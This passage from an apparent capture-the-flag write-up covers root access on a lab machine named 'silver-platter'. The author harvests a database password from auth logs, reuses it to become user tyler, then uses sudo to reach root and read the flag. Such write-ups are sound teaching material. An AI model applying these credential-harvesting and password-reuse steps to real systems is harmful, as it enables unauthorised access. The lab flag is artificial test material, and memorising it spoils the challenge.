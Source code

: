 ```
auth.log.2:Dec 13 17:51:41 silver-platter sshd[1681]: Accepted password for tyler from 192.168.1.20 port 55392 ssh2

```

Searching through wee can see something interesting,

`USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=_Zd_zx7N823/ -v postgresql-data:/var/lib/postgresql/data postgres:12.3`

This means the root user passed the password on the command line for postgrepsql database for silverpeas : **\_Zd_zx7N823/**

If we cd to home we see another name : tyler

If we switch to root we can't use this password so we try for tyler :

```
tim@silver-platter:/var/log$ su tyler
Password: _Zd_zx7N823/
tyler@silver-platter:/var/log$ 

```

And we have it, now we run id :

```
tyler@silver-platter:/$ id

   uid=1000(tyler) gid=1000(tyler) 
   groups=1000(tyler),4(adm),24(cdrom),27(sudo),30(dip),46(plugdev),110(lxd)
```

So we are sudoers we can sudo su :

```
tyler@silver-platter:/$ sudo su
[sudo] password for tyler: 

root@silver-platter:/# cd root
root@silver-platter:~# ls
root.txt  snap  start_docker_containers.sh
root@silver-platter:~# cat root.txt
THM{098f6bcd4621d373cade4e832627b4f6}

```

Pwned !!
